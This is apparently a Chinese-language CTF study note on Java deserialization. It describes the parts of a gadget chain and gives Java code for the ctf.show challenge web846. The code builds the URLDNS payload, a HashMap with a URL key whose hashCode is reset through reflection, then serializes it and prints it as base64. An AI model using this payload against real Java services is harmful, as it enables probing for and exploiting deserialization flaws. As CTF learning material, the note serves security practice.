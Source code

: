 

## java反序列化
#java反序列化 

https://mvnrepository.com/  查找maven依赖
`ctrl alt b`查找接口的实现

入口类: 
- 实现了serialize接口
- 重写了readObject方法
- 接收任意对象作为参数
中间类:
- 实现了serialize接口
- 接收集合类型

最终类:
- 命令执行或文件读取

### web846
```java
import java.io.FileOutputStream;
import java.io.IOException;
import java.io.ObjectOutputStream;
import java.lang.reflect.Field;
import java.net.URL;
import java.nio.file.Files;
import java.nio.file.Paths;
import java.util.Base64;
import java.util.HashMap;
import java.util.Objects;

public class test {
    public static void serialize(Object obj) throws IOException{
        ObjectOutputStream oos=new ObjectOutputStream(new FileOutputStream("ser.bin"));
        oos.writeObject(obj);
        oos.close();

        byte[] serializeData= Files.readAllBytes(Paths.get("ser.bin"));
        String base64Encoded= Base64.getEncoder().encodeToString(serializeData);
        System.out.println(base64Encoded);
    }
    public static void main(String[] args)  throws Exception{
        HashMap<URL,Integer> hashmap=new HashMap<>();
        URL url =new URL("http://1c9e258a-5d11-4e7e-b9f2-6c7e7ffa94be.challenge.ctf.show/");

        Class c=url.getClass();
        Field hashcodefield=c.getDeclaredField("hashCode");
        hashcodefield.setAccessible(true);
        hashcodefield.set(url,1234);
        hashmap.put(url,1);
        System.out.println(url);
        hashcodefield.set(url,-1);
        serialize(hashmap);
    }

}

```
